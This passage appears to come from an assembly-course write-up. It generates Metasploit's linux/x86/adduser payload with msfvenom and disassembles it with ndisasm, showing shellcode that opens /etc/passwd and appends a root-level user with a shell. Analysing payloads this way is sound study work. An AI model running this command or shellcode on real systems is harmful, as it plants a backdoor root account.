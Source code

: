 `ndisasm` is used to dissassemble the shellcode:
```
slemire@slae:~/slae32/assignment5/3_adduser$ msfvenom -p linux/x86/adduser USER=slae PASS=slae | ndisasm -b32 - 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
0000002B  736C              jnc 0x99              -> Start of username/password string
0000002D  61                popad                 ..
0000002E  653A417A          cmp al,[gs:ecx+0x7a]  ..
00000032  48                dec eax
00000033  3433              xor al,0x33
00000035  7970              jns 0xa7
00000037  58                pop eax
00000038  2F                das
00000039  7A65              jpe 0xa0
0000003B  7063              jo 0xa0
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
